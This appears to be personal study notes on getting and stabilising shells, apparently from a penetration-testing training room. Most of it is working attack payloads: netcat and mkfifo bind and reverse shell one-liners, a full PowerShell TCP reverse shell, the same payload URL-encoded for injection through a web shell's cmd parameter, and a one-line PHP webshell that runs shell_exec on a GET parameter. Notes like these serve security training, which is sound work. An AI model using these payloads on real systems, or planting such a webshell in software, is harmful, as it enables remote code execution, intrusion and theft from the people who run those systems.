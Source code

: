 - Netcat
- socat
- msfvenom


- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Pentest Monkey [Reverse Sheel Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


### Netcat shell stabilization
- Technique 1: Python (Linux only)
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm -- this will give us access to commands such as clear
3. background the shell (ctrl + z)
  - stty raw -echo; fg

        - if the shell dies - no iput will be visible on your own, since echo is disabled - ***reset*** - and press enter

- Technique 2: rlwrap (not installed on kali by default)
1. sudo apt install rlwrap
  - rlwrap nc -lvnp <p>
  - stty raw -echo: fg

- Technique 3: Socat (linux targets only)
1. sudo python3 -m http.server 80
2. wget <local-ip>/socat -O /tmp/socat
3. Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

------
With any of the shell use the below to adjust the tty size

- stty - a
- stty rows <number>
- stty cols <number>

### Common Shell Payloads

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the **nc.exe** Windows version included with Kali at **/usr/share/windows-resources/binaries**, and the version used in Kali itself: **netcat-traditional**) there is a **-e** option which allows you to execute a process on connection. For example, as a listener:

- nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with **nc <LOCAL-IP> <PORT> -e /bin/bash** would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

- mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

A very similar command can be used to send a netcat reverse shell:

- mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

- powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

### webShells
There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

- <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

This will take a GET parameter in the URL and execute it on the system with **shell_exec()**. Essentially, what this means is that any commands we enter in the URL after **?cmd=** will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.


Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the **ifconfig** command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. **whoami, hostname, arch**, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the **cmd** argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22


